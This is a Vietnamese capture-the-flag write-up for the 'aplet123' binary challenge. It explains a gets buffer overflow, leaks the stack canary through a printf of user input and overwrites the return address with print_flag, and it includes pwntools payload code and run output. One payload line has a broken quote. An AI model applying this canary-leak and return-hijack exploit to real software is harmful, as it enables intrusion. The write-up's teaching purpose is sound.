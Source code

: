 # write up aplet 123 


- khi nhìn vào code hàm main em sẽ thấy có lỗi buffer overflow ở hàm gets, vì hàm dùng while lặp lại nhiều lần nên em có thể khai thác nhiều lần gets, ngoài ra còn có %s nữa nên em có thể dùng nó để leak canary vì chương trình có bật canary, vì bài có hàm lấy flag rồi nên không cần phải lấy shell nữa
```C
int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
```
- đầu tiên em sẽ nhập đủ số bytes cộng với chuỗi "i'm" sao cho nó đến được với canary, căn sao cho s+4 không ảnh hưởng gì đến kết quả trả về 
```python
payload = b'a'*0x3e + b'a'*0x7
payload += b'i'm'
p.sendlineafter(b'hello\n',payload)
```
- phải thêm "i'm" ở cuối cùng vì strstr sẽ trả về con trỏ trỏ tới chuỗi i'm trong chuỗi vừa nhập thì if mới có thể chạy tiếp , nếu không strstr sẽ trả về null, ngoài ra nếu bỏ "i'm" ở đầu chuỗi thì lúc cuối chuỗi sẽ có null byte ngăn cách với canary nên không in ra được canary
```C
char *s = strstr(input, "i'm");
```

- sau khi leak xong canary thì quay trở lại và nhập lần nữa cùng với canary và địa chỉ hàm print_flag vào đúng vị trí

```python
canary_leak = u64(p.recv(7) + b'\x00')
payload = b'a'*0x48
payload += p8(0)
payload += p64(canary_leak)
payload += b'a'*0x7
payload += p64(exe.sym['print_flag'])
p.sendlineafter(b'aplet123\n',payload)

```
cuối cùng gõ bye để thoát khỏi vòng lặp và đi tới return để lấy flag 

```bash
[*] '/home/as/pwnable/report/aplet123/aplet123'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/as/pwnable/report/aplet123/aplet123': pid 121890
[*] Switching to interactive mode
so relatable
$ bye
bye
fake{lmaolmaolmao}

[*] Got EOF while reading in interactive
```
